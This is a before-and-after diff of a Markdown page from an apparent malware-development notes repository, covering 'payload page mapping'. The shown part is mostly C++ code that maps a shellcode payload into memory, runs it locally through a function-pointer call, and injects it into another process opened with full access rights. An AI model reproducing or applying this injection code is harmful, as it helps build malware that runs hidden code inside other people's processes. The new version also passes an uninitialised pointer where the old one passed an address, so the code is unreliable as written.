

Before and after one commit to everrover/supernova-hold, a Markdown page: MaldevFlashnotes/PayloadPageMapping.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/MaldevFlashnotes/PayloadPageMapping.md
+++ b/MaldevFlashnotes/PayloadPageMapping.md
@@ -118,29 +118,36 @@ int main() {
         0xC0, 0xC3
     };
 
-    PVOID pMappedAddress = NULL;
-    if (LocalMapInject(payload, sizeof(payload), &pMappedAddress)) {
-        std::cout << "[+] Payload Mapped Successfully at Address: " << pMappedAddress << '\n';
+    PVOID pRemoteMappedAddress = NULL, pLocalAddress;
+	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, /* Target PID */ 9436);
+	cout << hProcess;
+	if (LocalMapInject(payload, sizeof(payload), pLocalAddress)) {
+		std::cout << "[+] Payload Locally Mapped Successfully at Address: " << pLocalAddress << '\n';
+		((void(*)())pLocalAddress)();
+		/*HANDLE hThread = CreateThread(
+			nullptr,
+			0,
+			reinterpret_cast<LPTHREAD_START_ROUTINE>(pLocalAddress),
+			nullptr,
+			0,
+			nullptr
+		);
+		WaitForSingleObject(hThread, INFINITE);*/
+	}
+	else {
+		std::cerr << "[!] Local Payload Mapping Failed\n";
+	}
 
-        // Execute the payload
-        ((void(*)())pMappedAddress)();
-    } else {
-        std::cerr << "[!] Payload Mapping Failed\n";
-    }
+	if (RemoteMapInject(hProcess, payload, sizeof(payload), pRemoteMappedAddress)) {
+		std::cout << "[+] Payload Remotely Mapped Successfully at Address: " << pRemoteMappedAddress << '\n';
+	}
+	else {
+		std::cerr << "[!] Remote Payload Mapping Failed\n";
+	}
 
-    UnmapViewOfFile(pMappedAddress);
+	UnmapViewOfFile(pRemoteMappedAddress);
+	CloseHandle(hProcess);
 
-    PVOID pRemoteMappedAddress = NULL;
-    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, /* Target PID */ 1234);
-    if (RemoteMapInject(hProcess, payload, sizeof(payload), &pRemoteMappedAddress)) {
-        std::cout << "[+] Payload Remotely Mapped Successfully at Address: " << pRemoteMappedAddress << '\n';
-    } else {
-        std::cerr << "[!] Remote Payload Mapping Failed\n";
-    }
-
-    UnmapViewOfFile(pRemoteMappedAddress);
-    CloseHandle(hProcess);
-
-    return 0;
+	return 0;
 }
 ```
````
Also changed, not shown: MaldevFlashnotes/FunctionStomping.md (added, +262 -0 lines).
